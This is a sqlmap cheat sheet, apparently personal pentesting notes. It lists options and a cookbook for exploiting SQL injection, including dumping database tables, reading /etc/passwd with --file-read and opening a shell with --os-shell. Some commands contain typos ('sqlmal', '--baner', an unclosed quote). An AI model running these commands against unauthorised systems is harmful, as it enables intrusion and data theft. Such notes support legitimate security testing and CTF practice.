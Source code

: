 # sqlmap

## Overview

SQLMap is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006 and is still maintained today.

## Installation

	sudo apt install sqlmap
or
	git clone https://github.com/sqlmapproject/sqlmap.git


## Command Options

sqlmap

	-h, --help			Show basic help message and exit
	-hh			Show advanced help message and exit
	-u URL, --url=URL			Target URL
	-p <injection_point>		Selects a specific injection point
	-o - Chose all optimizations available

	-D <database_name>		Scans for a specific database
	-T <table_name>		Scans for a specific table

	--threads <threads>		Max of 10 threads
	--batch			Used for skipping any required user-input, by automatically choosing using the default option
	--dump			Dumps DBMS database table entries
	--baner		Retrieves dbms banner
	--dbms <dbms_name>		Use only sqli for a specifc dbms
	--os-shell		Try to get a remote shell on the server
	--is-dba		Check if we can get db admin priveledges
	--flush-session	Deletes the records for the current session scan and starts from the beginning
	--crawl <depth>	Crawl the website starting from the target URL
	--os-shell		Tries creating a shell on the server


## Usage Examples

sqlmap -u <address> --dump --batch
sqlmap -r <request_file_path> --dump --batch

if we dont find anything increase risk and level

sqlmap -r <request_file_path> --dump --batch --risk 3

sqlmap -r <request_file_path> --dump --batch --level 5

sqlmap -r <request_file_path> --dump --batch --level 5 --risk 3

Injection on a specific field

sqlmap -r <request_file_path> --batch -p <injection_field_name>

## Cookbook

Start by doing a simple scan without the Time technique:

	sqlmap -r <request> --technique "BEUSQ" --banner --dbs --current-user --current-db --users --roles
	Don't use --batch on the first scan
	Don't use --threads on the first scan

When increasing the level try it also without the time technique:

```shell

sqlmap -r <request> --technique "BEUSQ" --batch --level 5 --risk 3 --threads 10
```

Check the priviledges of the db user (we might be able to create a shell or read files):

```shell
sqlmap -r <request> -p <injectable_parameter> --privileges

#if we have file read privileges we can do so with:

sqlmap -r <request> -p <injectable_parameter> --file-read=/etc/passwd
```

Try creating a shell after finding an injection

	sqlmap -r <request> --os-shell

Start by doing a basic scan of the dbms, to get some basic info

	sqlmap -r <> --batch --banner

Then add the dbms flag, and enum the dbs, users and roles

	sqlmap -r <> --batch --dbms=<dbms_name> -dbs --current-user --current-db --users --roles --threads 10

Then pick a db and enum the tables

	sqlmap -r <> --batch --dbms=<> -D <db_name> --tables

Then dump a specific table:

```shell
sqlmal -r <request> --threads 10 --batch --dbms=<database_magement> -D <database_name> -T <table_name> --dump
```

## Sqlmap and websockets

Let's say that there is a websocket running on ws://soc-player.soccer.htb:9091/, and to this endpoint we send a json data of {"id":"1000"}, we can use sqlmap to inject the id parameter.

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"} --batch
```


## More Information

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
https://github.com/sqlmapproject/sqlmap/wiki/Usage